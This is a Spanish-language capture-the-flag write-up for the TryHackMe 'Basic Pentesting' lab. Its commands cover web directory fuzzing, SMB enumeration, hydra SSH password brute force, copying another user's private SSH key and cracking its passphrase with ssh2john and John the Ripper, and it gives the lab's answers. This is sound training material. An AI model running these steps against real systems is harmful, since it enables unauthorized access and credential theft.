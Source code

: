 # Basic Pentesting Room

## INDEX

- [[#¿Cuál es el nombre del directorio oculto en el servidor web (ingrese el nombre sin /)?|¿Cuál es el nombre del directorio oculto en el servidor web (ingrese el nombre sin /)?]]
- [[#Cual es el nombre de usuario?|Cual es el nombre de usuario?]]
- [[#¿Cual es la contraseña?|¿Cual es la contraseña?]]
- [[#¿Qué servicio utiliza para acceder al servidor (responda en abreviatura en mayúsculas)?|¿Qué servicio utiliza para acceder al servidor (responda en abreviatura en mayúsculas)?]]
- [[#¿Cuál es el nombre del otro usuario que encontró (todo en minúsculas)?|¿Cuál es el nombre del otro usuario que encontró (todo en minúsculas)?]]
- [[#¿Cuál es la contraseña final que obtienes?|¿Cuál es la contraseña final que obtienes?]]


![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/1.png)

Enumeracion de puertos y servicios:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/2.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/3.png)

##   ¿Cuál es el nombre del directorio oculto en el servidor web (ingrese el nombre sin /)?

El puerto 8080 es un apache Tomcat y no creo que el directorio oculto se encuentre ahi. Vamos a realizar fuzzing con el el puerto 80:

```bash
wfuzz -c -t 100 --hw=24 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.187.52/FUZZ
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/4.png)

el directorio oculto es **development**.

## Cual es el nombre de usuario?

Vemos que tiene  el puerto 139 y 445 de **netbios**, mediante enum4linux vamos a enumerar lo mas que podemos de estos servicios:

```bash
enum4linux -a 10.10.75.140
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/5.png)

el nombre de usuario es **jan**
  
## ¿Cual es la contraseña?

vamos a aplicar fuerza bruta con hydra para el servicio SSH que lo tenia abierto:

```bash
hydra -L names.txt -P pass.txt 10.10.75.140 -t 4 -v ssh 
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/6.png)

la conrtaseña es **armando**.

##   ¿Qué servicio utiliza para acceder al servidor (responda en abreviatura en mayúsculas)?

Lo hicimos mediante **SSH**.

  
## ¿Cuál es el nombre del otro usuario que encontró (todo en minúsculas)?

```bash
ssh jan@10.10.75.140
<armando>
```

Lo enumeramos con **enum4linux** o sino una vez dentro lo podemos ver en el archivo **/etc/passwd**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/7.png)

la respuesta es **kay**.

## ¿Cuál es la contraseña final que obtienes?

Vemos que en su carpeta local del usuario **kay** hay una carpta oclta llamada **.ssh**, ahi normalmente se encuentran las llaves publicas y privadas que el usuario genera y un archivo llamado **authorized_keys** que contiene las llaves publicas que son admitidas para una autenticacion mediante llave **id_rsa**.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/8.png)

vamos a copiarnos la llave privada a nuesro equipo Kali, le damos el permiso 600 e intentamos autenticarnos con esa llave y el usuario kay:

```bash
chmod 600 id_rsa

ssh -i id_rsa kay@10.10.75.140

```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/9.png)

vemos que nos pide una conrtaseña pero no la sabemos, Asi que vamos a intentar crackearla. Usaremos **ssh2john**, esta herramienta es parte de la suite John The Reaper. Este es un script que básicamente transforma la clave privada de [RSA / DSA / EC / OPENSSH (claves privadas SSH)] al formato john para descifrarla más tarde usando JtR

[ssh2john github](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)

[tutorial ssh2john](https://vk9-sec.com/ssh2john-how-to/)

extraemos el hash:

```bash
python2 ssh2john.py id_rsa > id_rsa.hash
```

ahora intentamos crackearlo con John The Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

vemos la contraseña:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/10.png)

ahora volvemos a conectarnos con la llave privada ya que sabemos la contraeña:

```bash
ssh -i id_rsa kay@10.10.75.140

<contraseña hallada>
```

estamos dentro y podemos ver la contraseña final:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/11.png)


